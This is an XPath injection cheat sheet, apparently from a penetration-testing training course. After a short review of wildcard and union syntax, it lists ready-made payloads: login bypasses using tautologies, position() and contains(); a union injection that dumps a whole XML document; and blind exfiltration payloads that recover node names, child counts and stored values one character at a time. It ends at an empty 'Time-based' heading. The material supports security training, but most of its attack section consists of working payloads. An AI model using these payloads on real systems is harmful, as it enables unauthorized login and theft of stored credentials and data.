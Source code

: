 Wildcards:

|Query|Explanation|
|---|---|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|

Union:

|Query|Explanation|
|---|---|
|<code>//module[tier=2]/title/text() \| //module[tier=3]/title/text()</code>|Select the title of all modules in tiers `2` and `3`|

**Authentication Bypass**

|Description|Username|Query|
|---|---|---|
|Regular Authentication|`htb-stdnt`|`/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']`|
|Bypass Authentication with known username|`admin' or '1'='1`|`/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by position|`' or position()=1 or '`|`/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by substring|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|

**Data Exfiltration**

Unrestricted:

- Leak entire XML document via union injection: `| //text()`
    

Restricted:

- Determine schema depth via chain of wildcards `/*[1]`
    
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step
    

**Blind Data Exfiltration**

|Description|Payload|Query|
|---|---|---|
|Exfiltrating Node Name's Length|`invalid' or string-length(name(/*[1]))=1 and '1'='1`|`/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']`|
|Exfiltrating Node Name|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|
|Exfiltrating Number of Child Nodes|`invalid' or count(/*[1]/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']`|
|Exfiltrating Value Length|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|
|Exfiltrating Value|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|

**Time-based**
